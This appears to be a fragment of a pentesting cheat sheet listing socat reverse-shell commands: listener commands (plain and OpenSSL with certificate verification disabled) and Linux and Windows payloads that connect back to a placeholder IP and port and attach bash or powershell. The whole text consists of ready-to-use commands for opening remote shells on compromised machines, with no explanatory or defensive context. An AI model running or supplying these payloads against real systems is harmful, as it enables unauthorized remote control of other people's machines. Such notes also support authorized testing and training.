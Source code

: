 + **Socat reverse-shell(listener)**:
```
socat tcp-l:<port> file:`tty`,raw,echo=0
socat openssl-listen:<port>,cert=<cert.pem>,verify=0 file:\`tty\`,raw,echo=0
```

+ **Socat reverse-shell(linux payload)**:
```
socat tcp:<ip>:<port> exec:"bash -li",pty,stderr,sigint,setsid,sane
socat openssl:<ip>:<port>,verify=0 exec:"bash -li",pty,stderr,sigint,setsid,sane
```

+ **Socat reverse-shell(windows payload)**:
```
socat tcp:<ip>:<port> exec:"powershell.exe",pipes
socat openssl:<ip>:<port>,verify=0 exec:"powershell.exe",pipes
```
